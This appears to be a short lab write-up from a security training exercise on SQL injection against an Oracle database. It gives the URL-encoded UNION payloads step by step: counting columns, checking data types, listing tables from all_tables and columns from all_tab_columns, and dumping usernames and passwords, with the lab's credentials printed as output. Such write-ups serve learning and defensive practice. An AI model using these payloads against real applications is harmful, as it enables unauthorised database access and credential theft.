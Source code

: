 # Lab: SQL injection attack, listing the database contents on Oracle

End Goal :

- Determine which table contains the usernames and passwords
- Determine the column names in table
- Output the content of the table
- Login as admin

Analysis:

1- Determine the number of the columns
`'+order+by+3+--` -> internal server error
no. of column = 2

2- Find data type of columns
Both columns accept string values
the vendor is Oracle
`'+UNION+SELECT+'A','A'+FROM+DUAL--`

3- Output the list of tables in the database

`'+UNION+SELECT+table_name,NULL+FROM+all_tables--`
->
USERS_CHJWDN

4- Output the column names of the users table

`'+UNION+SELECT+COLUMN_NAME,+NULL+FROM+all_tab_columns+WHERE+table_name=+'USERS_CHJWDN'--`

->
USERNAME_UJTEYX
PASSWORD_JAOADM
EMAIL

5- Dump the creds

`'+UNION+SELECT+USERNAME_UJTEYX,+PASSWORD_JAOADM+FROM+USERS_CHJWDN--`

->

administrator
 likmv5lsvqnzgsaj3gx6
carlos
 ils1bzehtjxa7l8cg5y9
wiener
 ojjjzusyft47pn2q5njp
